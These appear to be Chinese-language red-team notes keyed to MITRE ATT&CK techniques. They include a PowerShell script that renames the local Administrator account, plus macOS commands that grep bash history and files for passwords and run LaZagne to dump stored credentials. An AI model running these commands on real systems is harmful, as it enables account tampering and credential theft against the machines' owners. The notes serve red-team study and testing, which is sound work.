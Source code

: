 对于AWS:AWS通过账户名新人用户.
###### 测试1 Admin Account Manipulate
修改账户名称
```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```
没有复现
### T1110 - Brute Force
没什么说的,就是爆破

## macos

## T1552.003 - Bash History

红队可以根据bash历史命令查找一些可用的口令

```
cat #{bash_history_filename} | grep -e '-p ' -e 'pass' -e 'ssh' > #{output_file}
```



## T1552.001 - Credentials In Files

红队可以在受害者机器中查找存储在文件里的Credentials,Demo如下

###### Demo1 使用LaZagne来进行凭据查找

```
python2 laZagne.py all
```

###### Demo2 通过grep命令查找文本的特殊字段

```
grep -ri password #{file_path}
```
